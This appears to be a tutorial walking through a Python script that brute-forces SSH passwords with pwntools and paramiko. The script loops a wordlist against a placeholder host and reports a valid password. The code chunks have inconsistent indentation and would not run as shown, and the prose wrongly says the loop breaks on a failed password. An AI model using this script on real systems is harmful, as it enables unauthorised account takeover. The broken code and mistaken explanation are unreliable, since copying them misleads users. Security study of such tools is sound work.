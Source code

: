 ```python
from pwn import *
import paramiko
```

These first two lines of code import pwn module and paramiko modules. These modules grant users access to a number of tools that can help us accomplish our goals: `pwn` will allow this script to interact with SSH, and `paramiko` will be used for more SSH compatibility and error handling.

```python
host = "X.X.X.X"
username = "user"
attempts = 0
```

This block will define the variables the script will use. `Host` indicates the IP that will be targeted, `username` is the user that will be bruteforced, and I am including `attempts` to keep a log of the number of passwords tried.

```python
with open("passwords.txt", "r") as password_list:
	for password in password_list:
		password = password.strip("\n")
```
Here, the password list is defined (passwords.txt is a sample and can be changed with any file).  The passwords are stripped into a plain format that can be input during authentication with SSH.

```python
    try:
          print("[{}] Attempting password: '{}'!".format(attempts, password))
```

This section of the code will print the `attempt` number in between `[]`, indicating the number of passwords that have been attempted, and it will also display which `password` is being attempted. 

```python
      response = ssh(host=host, user=username, password=password, timeout=1)
            if response.connected():
              print("[>] Valid password found: '{}'!".format(password))
              response.close()
              break
            response.close()
```

This is the main section of the code. The reponse variable is defined with ssh, which is imported from the pwn module. We give it the `host`, `user`, and `password` parameters using the global variables defined at the beginning of the script, and `timeout`in line.

If the credentials are correct and a connection is successful, the line `"[>] Valid password found: password!"` is diplayed and the connection is closed. If the password was not correct, the connection is closed, the loop is broken, and the next password in the list is attempted until the end of the wordlist.

```python
    except paramiko.ssh_exception.AuthenticationException:
          print("[X] Invalid password!")
        attempts += 1
```
The final piece of code prints when a password is incorrect and adds 1 attempt to the counter. It will also handle SSH errors and exceptions, such as when the connection fails.


[^1]: Source: [Python Documentation](https://docs.python.org/3/)
[^2]: Source: [pwntools](https://docs.pwntools.com/en/stable/)
[^3]: Source: [paramiko](https://docs.paramiko.org/en/stable/)